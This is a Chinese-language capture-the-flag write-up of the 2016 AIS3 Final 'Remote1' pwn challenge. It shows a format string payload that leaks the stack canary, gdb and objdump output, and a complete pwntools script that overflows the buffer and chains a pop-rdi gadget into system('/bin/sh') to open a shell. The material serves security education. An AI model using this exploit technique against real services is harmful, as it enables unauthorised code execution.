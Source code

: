 title: '[2016 AIS3 FINAL] Remote1'
author: Naetw
tags:
  - format string
  - GOT hijacking
categories:
  - write-ups
date: 2016-08-28 20:33:00
---

## Description

> 人生第一次比賽解題，來記錄一下
> 這題應該要更快解決的Orz，一開始走向比較麻煩的方向，直到 **@Brainsp8210** First Blood<(\_ \_)>

## Exploit

拿到題目就先 `./pwn1` 執行看看，看到了 echo service，直覺是想到 **Format String**，於是送個 `%lx %lx %lx %lx`，確認是 **Format String**，但是一開始想直接去 **GOT Hijack**，但是最後一個 byte 一直失敗QQ，不夠熟悉，該多練練，後來看到同學 First Blood，於是轉戰別的方向。

```bash
$ objdump -d pwn1 |less
```

看到了 `0000000000400620 <__stack_chk_fail@plt>:` 應該是可以對他進行 **Stack Overflow** 於是送了一坨 AAAAA 給他，`quit` 後跳出

```bash
*** stack smashing detected ***: ./pwn1 terminated
[1]    1249 segmentation fault  ./pwn1
```

因為 **Stack Canary** 會被放在 stack 上，於是利用 **Format String** 洩漏 stack 上的值，先送一段 payload

**Payload:**

`AAAAAAAA %lx %lx %lx %lx %lx %lx %lx %lx`

**Output:**

`AAAAAAAA 40095f 0 71 7f0cb954e700 1e 23 29b9356620 4141414141414141`

確認了如果要 dump 出 Buffer 的第一格需要 `%8$lx`，用 [Qira][qira] 或是 gdb 追一下程式，加上 `objdump`

```
40083e:       48 8b 4d f8             mov    rcx,QWORD PTR [rbp-0x8]
400842:       64 48 33 0c 25 28 00    xor    rcx,QWORD PTR fs:0x28
400849:       00 00
40084b:       74 05                   je     400852 <echo+0xb0>
40084d:       e8 ce fd ff ff          call   400620 <__stack_chk_fail@plt>
```

**Stack Frame:**

```
(gdb) x/gx $rbp
0x7fffffffea00: 0x00007fffffffea10

0x7fffffffe9e0: 0x4141414141414141
0x7fffffffe9e8: 0x00007ffff7a9000a
0x7fffffffe9f0: 0x0000000000000000
0x7fffffffe9f8: 0x0a2281f1d38aaf00
0x7fffffffea00: 0x00007fffffffea10
0x7fffffffea08: 0x000000000040088a
0x7fffffffea10: 0x00000000004008a0
0x7fffffffea18: 0x00007ffff7a58730
```

由 **Stack Frame** 我們知道 **Stack Canary** 可用 `%11$lx` dump 出來，找到 **Canary** 的值後，等等 **Overflow** 就可以蓋上同樣的值，在結束 **echo** 時就不會呼叫 `__stack_chk_fail`，繞過 **Stack Guard**！！

在 `ret` 時 `rsp` 所在的位置覆蓋成 `pop rdi ; ret` 的 gadget，gadget 可利用 `ROPgadget` 去找，讓 `rdi` 的值為指向 `/bin/sh` 的字串位置，接著 `call system`，即可開啟 `Shell`

## Final Exploit:

```python
#!/usr/bin/env python

from pwn import *

# local
r = remote('127.0.0.1', 4000)
# remote
#r = remote('final.ais3.org', 32164)

system = 0x400630

pop_rdi_ret = 0x400903

sh = 0x400928

r.sendline('%11$lx') # leak stack canary
r.recvline()
r.recvline()

x = r.recvline()
y = x[x.find('prompt>'):]

canary = '0x' + y[8:]
canary = int(canary, 16)

r.sendline('a'*24 + p64(canary) + p64(0xdeadbeef) + p64(pop_rdi_ret) + p64(sh) + p64(system))

sleep(0.1)

r.sendline('quit')

r.interactive()
```

[qira]: https://github.com/BinaryAnalysisPlatform/qira
